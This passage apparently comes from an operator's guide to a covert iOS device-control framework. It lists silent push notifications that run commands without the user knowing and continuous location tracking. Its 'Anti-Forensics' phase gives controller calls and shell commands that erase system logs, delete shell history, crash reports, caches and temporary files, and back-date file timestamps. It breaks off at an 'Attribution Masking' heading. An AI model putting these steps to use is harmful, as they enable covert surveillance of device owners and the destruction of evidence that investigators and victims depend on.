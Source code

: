 ### Enterprise App (Non-Jailbroken)

- **Background Modes**: Enable background execution
- **Push Notifications**: Wake app for command execution
- **Silent Push**: Execute commands without user notification
- **Location Updates**: Continuous location tracking

---

## Phase 7: Anti-Forensics

### Log Cleanup

```python
# Clear all system logs
await controller.execute_command(device_id, 'clear_logs')

# Remove artifacts
await controller.execute_command(device_id, 'remove_artifacts')

# Reset timestamps
await controller.execute_command(device_id, 'reset_timestamps')

# Clear caches
await controller.execute_command(device_id, 'clear_cache')
```

### Evidence Destruction

```bash
# On device (via SSH or agent)
# Clear bash/zsh history
rm ~/.bash_history ~/.zsh_history

# Clear system logs
log erase --all

# Clear crash reports
rm -rf ~/Library/Logs/DiagnosticReports/*

# Clear caches
rm -rf ~/Library/Caches/*

# Clear temporary files
rm -rf /tmp/*

# Reset file timestamps
find /var/root -type f -exec touch -t 202001010000 {} \;
```

### Attribution Masking
